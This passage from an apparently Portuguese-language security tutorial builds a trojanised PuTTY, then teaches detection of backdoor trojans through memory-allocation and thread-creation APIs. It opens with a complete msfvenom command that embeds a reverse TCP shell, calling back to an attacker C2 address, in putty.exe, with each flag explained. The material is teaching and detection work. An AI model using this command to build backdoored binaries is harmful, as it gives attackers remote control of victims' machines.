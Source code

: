 ```sh
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=1337 -f exe -x putty.exe -k -o putty_infected.exe
```

No qual:

- *-p* -> seleciona o payload para infecção *windows/shell_reverse_tcp* (shell reversa, via TCP, para windows x86, sem estágio - todo o payload estará no binário final);
- *LHOST* -> IP do C2 do atacante;
- *LPORT* -> porta utilizada para conexão ao C2;
- *-f* -> formato a ser gerado a shell - no caso, queremos um EXE ao final;
- *-x* -> seleciona um executável para template, que será transformado em um trojan;
- *-k* -> informa ao framework que o trojan deve funcionar como o software legítimo;
- *-o* -> especifica o nome do trojan gerado.

> Lembrando ao leitor que, caso deseje os exatos artefatos que iremos analisar nas seguintes seções, o link está disponível na seção [Introdução](#introdução).

<br>
<br>

# Técnicas de detecção de trojans

Nessa seção, vamos estudar algumas técnicas para detecção de trojans, focando em trojans backdoor. Analisaremos o caso de uma infecção do putty como prática dos conceitos estudados.

## Identificando trojans através de APIs específicas

Um shellcode ofuscado reside na memória, geralmente em uma seção de dados, quando armazenado de forma global, ou na stack, quando armazenado no escopo de uma função. Em ambos os casos, não há permissão de execução por padrão - exceto no caso da stack em binários sem bit no-execute (NX - Linux) ou sistemas Windows com *Data Execution Prevention* (DEP) desabilitado ou modificado para aquele binário em específico.

Nesse caso, é necessário alocar na heap o shellcode, em uma região da memória que deverá ser possível realizar operações de leitura, escrita e execução em algum momento. Isso é feito através de algumas APIs em específico:

- `VirtualAlloc`
- `VirtualAllocEx`
- `VirtualProtect`

> VirtualProtect não aloca memória, mas muda suas permissões - uma memória que era RW pode se tornar RWX!

Após isso, é realizada a cópia/desofuscação em memória do shellcode para o espaço na heap criado por essas APIs. Essa cópia pode se dar com *memcpy*, *RtlMoveMemory* ou um simples loop sem nenhuma chamada de API. Nessa fase, também, caso haja injeção remota, são chamadas APIs para escrever o shellcode no processo remoto, como *WriteProcessMemory*.

Por fim, o payload precisa ser executado de alguma forma. As técnicas clássicas envolvem o uso de APIs como:

- `CreateThread`
- `CreateRemoteThread`
- `ResumeThread`
